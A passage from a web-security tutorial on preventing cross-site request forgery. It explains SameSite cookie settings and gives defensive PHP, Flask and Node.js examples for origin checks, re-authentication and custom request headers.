# OR
Set-Cookie: session=abc123; SameSite=Lax; Secure; HttpOnly

SameSite=Strict:
└── Cookie NEVER sent in cross-site requests
    ├── Strongest protection
    └── May break legitimate functionality
        └── E.g., clicking email links

SameSite=Lax (recommended):
└── Cookie sent in:
    ├── Same-site requests ✓
    ├── Top-level navigations (GET only) ✓
    └── NOT in cross-site POST requests ❌
        └── Blocks CSRF attacks!

SameSite=None:
└── Cookie sent in all requests
    └── Requires Secure flag
        └── No CSRF protection ❌

Modern browsers:
└── Default to SameSite=Lax
    └── Automatic CSRF protection!
        └── But explicit is better! ✓

Python Flask example:
from flask import Flask, session

app = Flask(__name__)
app.config.update(
    SESSION_COOKIE_SAMESITE='Lax',
    SESSION_COOKIE_SECURE=True,  # HTTPS only
    SESSION_COOKIE_HTTPONLY=True  # No JavaScript access
)
```

---

### **Fix 3: Verify Origin Header**

```r
<?php
// ✅ SECURE - Validate request origin

function validateOrigin() {
    $origin = $_SERVER['HTTP_ORIGIN'] ?? '';
    $referer = $_SERVER['HTTP_REFERER'] ?? '';
    
    $allowedOrigins = [
        'https://mywebsite.com',
        'https://www.mywebsite.com'
    ];
    
    // Check Origin header (preferred)
    if (!empty($origin)) {
        if (!in_array($origin, $allowedOrigins)) {
            die('Invalid origin');
        }
        return true;
    }
    
    // Fallback to Referer header
    if (!empty($referer)) {
        $refererHost = parse_url($referer, PHP_URL_HOST);
        if ($refererHost !== 'mywebsite.com' && 
            $refererHost !== 'www.mywebsite.com') {
            die('Invalid referer');
        }
        return true;
    }
    
    // No origin or referer - reject
    die('Missing origin/referer headers');
}

// Validate before processing
validateOrigin();

// Proceed with email change...
?>

Benefits:
✅ Verifies request came from your domain
✅ Blocks cross-origin requests
✅ Defense in depth with CSRF tokens

Limitations:
⚠️ Some users/proxies strip these headers
⚠️ Should be used with CSRF tokens
⚠️ Not foolproof on its own
```

---

### **Fix 4: Require Re-authentication**

```r
// ✅ SECURE - Require password for sensitive changes

<form method="POST" action="/my-account/change-email">
    <input type="hidden" name="csrf_token" value="...">
    <input type="email" name="new_email" placeholder="New email">
    <input type="password" name="current_password" placeholder="Current password">
    <button type="submit">Update Email</button>
</form>

Server-side:
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Verify CSRF token
    validateCSRFToken();
    
    // Require current password
    if (!verifyPassword($_POST['current_password'])) {
        die('Invalid password');
    }
    
    // Both validations passed, update email
    updateEmail($_POST['new_email']);
}
?>

Benefits:
✅ Even if CSRF bypassed, needs password
✅ Attacker unlikely to know password
✅ Extra layer of security
✅ Best for critical operations

Use for:
├── Email changes
├── Password changes
├── Two-factor auth changes
├── Payment method changes
└── Account deletions
```

---

### **Fix 5: Custom Headers**

```r
// ✅ SECURE - Require custom headers

// Client-side (AJAX request):
fetch('/my-account/change-email', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
        'X-Requested-With': 'XMLHttpRequest',  // Custom header
        'X-CSRF-Token': getCsrfToken()         // CSRF token
    },
    credentials: 'include',
    body: JSON.stringify({
        email: 'new@example.com'
    })
});

Server-side (Node.js example):
app.post('/my-account/change-email', (req, res) => {
    // Check for custom header
    if (req.headers['x-requested-with'] !== 'XMLHttpRequest') {
        return res.status(403).json({ error: 'Invalid request' });
    }
    
    // Validate CSRF token
    if (req.headers['x-csrf-token'] !== req.session.csrfToken) {
        return res.status(403).json({ error: 'Invalid CSRF token' });
    }
    
    // Proceed with email change
    updateEmail(req.body.email);
});

Why this works:
└── Simple HTML forms cannot set custom headers
    └── Only possible via JavaScript (XHR/Fetch)
        └── CORS blocks cross-origin custom headers
            └── Attacker cannot forge request! ✓

Defense mechanism:
├── Custom header triggers CORS preflight
├── Preflight requires server approval
└── Cross-origin requests blocked
    └── CSRF prevented! ✓

Best practice:
└── Combine with CSRF tokens
    └── Defense in depth! ✓
```

---
